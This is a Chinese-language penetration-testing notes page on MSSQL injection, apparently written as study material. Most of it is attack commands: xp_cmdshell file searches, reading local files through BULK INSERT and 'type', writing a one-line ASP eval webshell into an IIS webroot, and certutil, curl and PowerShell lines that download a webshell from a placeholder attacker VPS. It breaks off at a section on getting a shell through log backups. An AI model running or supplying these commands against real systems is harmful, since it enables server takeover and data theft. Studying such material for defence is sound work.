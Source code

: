![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_uxihOQTP.png)
**使用xp_cmdshell**查找绝对路径
cmd中寻找某文件
```shell
for /r c:\ %i in (*.asp) do echo %i
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_Hbq1yKk7.png)
需要建立一个表存一个char字段就可以了
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_mKGkM8zV.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_ZnQTRlo1.png)
### 读
读取文件可以创建一个临时表，将本地文件写入该表中（无法远程登录的情况下，使用堆叠注入）
```sql
--建立一个临时表
create table #testtable(
 context ntext
);
select * from #testtable

--将本地文件写入表中
BULK INSERT #testtable FROM 'c:/1.txt'
WITH (
   DATAFILETYPE = 'char',
   KEEPNULLS
)
--drop table #testtable; 
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_mXhNKegO.png)
xp_cmpshell执行dos命令，在知道绝对路径的情况下读取文件
```sql
exec master..xp_cmdshell 'type c:\\1.txt'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_cF5bHASf.png)
### 写
xp_cmdshell 写入webshell
在得知绝对路径的情况下，使用echo 写入webshell，如果需要换行则使用>>追加写入，注意如=、> 等前使用^来转义
```sql
exec master..xp_cmdshell 'echo ^<%eval request("cmd")% ^>> C:\Inetpub\wwwroot\sqlilabs\test.asp'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_VORt9xia.png)
或者使用远程下载
```shell
certutil.exe -urlcache -split -f "<your_vps>" web_absolute_path/xxx.asp
curl <your_vps> -o web_absolute_path/xxx.asp
powershell -c "invoke-webrequest -uri <your_vps> -outfile web_absolute_path/xxx.asp"
```
### DB_owner权限LOG备份Getshell
无论是LOG备份还是差异备份，都是利用备份的过程中写入一句话木马
**SQLServer常见的备份策略：**
